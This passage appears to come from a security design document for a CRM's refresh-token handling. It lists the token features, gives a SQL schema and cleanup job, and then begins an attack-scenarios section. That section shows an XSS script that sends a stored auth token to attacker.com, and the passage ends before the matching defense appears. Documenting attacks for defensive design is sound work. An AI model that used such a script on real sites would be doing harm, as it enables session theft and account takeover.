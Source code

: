 **Security Features**:
- ✅ **SHA-256 hashing** (tokens never stored plaintext)
- ✅ **Cryptographically secure random** (crypto.randomBytes)
- ✅ **Database-backed** (can revoke instantly)
- ✅ **Expiration checking**
- ✅ **Revocation support** (logout, compromised account)
- ✅ **Token rotation** (one-time use)
- ✅ **Revoke all tokens** (emergency logout)

---

## Database Schema

```sql
-- Migration: Add refresh_tokens table
CREATE TABLE refresh_tokens (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  user_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,
  token_hash VARCHAR(64) NOT NULL UNIQUE, -- SHA-256 hash
  expires_at TIMESTAMP WITH TIME ZONE NOT NULL,
  device_fingerprint TEXT,
  ip_address VARCHAR(45), -- IPv6 support
  user_agent TEXT,
  revoked BOOLEAN DEFAULT false,
  revoked_at TIMESTAMP WITH TIME ZONE,
  created_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP,
  last_used_at TIMESTAMP WITH TIME ZONE
);

-- Indexes for performance
CREATE INDEX idx_refresh_tokens_user_id ON refresh_tokens(user_id);
CREATE INDEX idx_refresh_tokens_token_hash ON refresh_tokens(token_hash);
CREATE INDEX idx_refresh_tokens_expires_at ON refresh_tokens(expires_at);

-- Cleanup job: Delete expired tokens (run daily)
DELETE FROM refresh_tokens
WHERE expires_at < CURRENT_TIMESTAMP - INTERVAL '30 days';
```

---

## Attack Scenarios & Defenses

### Attack 1: XSS - Stealing Access Token

**Attack**:
```javascript
// Malicious script injected via XSS
<script>
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
      token: localStorage.getItem('crm_auth_token')
    })
  });
</script>
```
